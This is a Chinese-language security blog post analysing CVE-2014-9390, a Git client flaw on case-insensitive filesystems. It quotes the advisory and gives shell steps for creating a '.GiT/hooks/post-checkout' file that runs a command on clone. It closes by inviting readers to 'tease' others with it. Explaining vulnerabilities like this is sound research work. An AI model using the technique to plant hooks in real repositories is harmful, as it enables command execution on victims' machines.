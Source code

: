```yaml
---
category:	Hacking
layout:		post
title:		Git客户端命令执行漏洞（CVE-2014-9390）简单分析
desc:		今日看到有这个漏洞的介绍，简单看了下，发现漏洞原因以及利用很简单，记记记!
tags:		[cve-2014-9390,git vul,git command execute]
---
```

#### 参考资料
* [https://github.com/blog/1938-git-client-vulnerability-announced](https://github.com/blog/1938-git-client-vulnerability-announced)    
* [http://www.secpulse.com/archives/3420.html](http://www.secpulse.com/archives/3420.html)

#### 漏洞成因
	The vulnerability concerns Git and Git-compatible clients that access Git repositories in a case-insensitive or case-normalizing filesystem. An attacker can craft a malicious Git tree that will cause Git to overwrite its own .git/config file when cloning or checking out a repository, leading to arbitrary command execution in the client machine. Git clients running on OS X (HFS+) or any version of Microsoft Windows (NTFS, FAT) are exploitable through this vulnerability. Linux clients are not affected if they run in a case-sensitive filesystem.

以上是原文，如果你E文也不好，那就参考我的理解：
`windows`和`osx`使用的文件系统(`NTFS`、`FAT`)不区分文件名的大小写，而`Linux`则区分。根据这个特性可以在`Linux`下创建一个大小写区别的`.git`文件夹，进而覆盖`.git`的配置文件，从而导致任意命令执行。

#### 测试例子
打开[http://gitcasefail.googlecode.com/svn/trunk/](http://gitcasefail.googlecode.com/svn/trunk/)这个谷歌代码仓库，可以看到有一个`.git`和一个`.Git`目录，关键是`.Git`这个目录，在里面的`hooks`目录里面有个`post-checkout`文件，这个就是导致命令执行的文件。
然后我们直接通过以下命令测试，如果命令执行则说明漏洞存在：
[code:bash:edoc]
git clone http://gitcasefail.googlecode.com/svn/trunk/repo/ 
[edoc]

#### 漏洞利用
我们进入`Linux`系统，然后初始化一个`git`目录，通过'ls -al'可以看到有`.git`目录，然后呢，直接创建`.gIt`文件夹并创建利用脚本：
[code:bash:edoc]
mkdir .GiT
cd .GiT
mkdir hooks
cd hooks
touch post-checkout
echo whoami>post-checkout
[edoc]
然后发布代码，测试成功后即可发命令给对方进行调戏了～～

